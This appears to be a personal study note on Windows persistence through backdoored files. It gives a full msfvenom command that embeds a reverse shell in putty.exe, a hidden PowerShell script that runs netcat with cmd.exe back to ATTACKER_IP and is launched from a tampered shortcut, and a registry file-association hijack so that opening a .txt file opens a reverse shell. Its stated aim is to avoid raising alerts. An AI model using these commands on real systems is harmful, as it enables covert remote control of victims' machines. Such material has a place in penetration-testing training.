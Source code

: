 #cybersecurity #windows 

We can plant backdoors that will get executed whenever the user access them. The file must keep working as expected to not create any alerts

### Executable files
Find executables in desktop.
We can easily plant a payload of our preference in any .exe file with `msfvenom`.
The binary will execute an additional payload silently by adding an extra thread.

```shell
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/shell_reverse_tcp lhost=ATTACKER_IP lport=4444 -b "\x00" -f exe -o puttyX.exe
```

This will execute a reverse_tcp meterpreter

### Shortcut Files
We can always tamper with the shortcut file itself
![[tampering-shortcut.png]]

Before hijacking the shortcut target let's create a simple Powershell script in `C:\Windows\System32` or any other sneaky location

```powershell
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4445"

C:\Windows\System32\calc.exe
```

Be sure to point the icon back to the original executable

The final shortcut will be:

```
powershell.exe -WindowStyle hidden C:\Windows\System32\backdoor.ps1
```


Let's start an nc listener in the attacker machine

```
user@AttackBox$ nc -lvp 4445
```

After double clicking on the shortcut we should get a connection back to the attacker machine



### Hijacking File Associations
The default operating system file associations are kept inside the registry, where a key is stored for very single file type under
`HKLM\Software\Classes\` 
For example for txt files:
![[hijackingFileAssociations.png]]

The ProgID is simply an identifier to a program installed on the system.
We can search for a subkey for the corresponding ProgID
![[hijackingFileAssociations2.png]]

We can replace the command with a script that executes a backdoor

```powershell
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4448"
C:\Windows\system32\NOTEPAD.EXE $args[0]
```

Then we create a listener and then opening a txt file we get the connection back to the attacker machine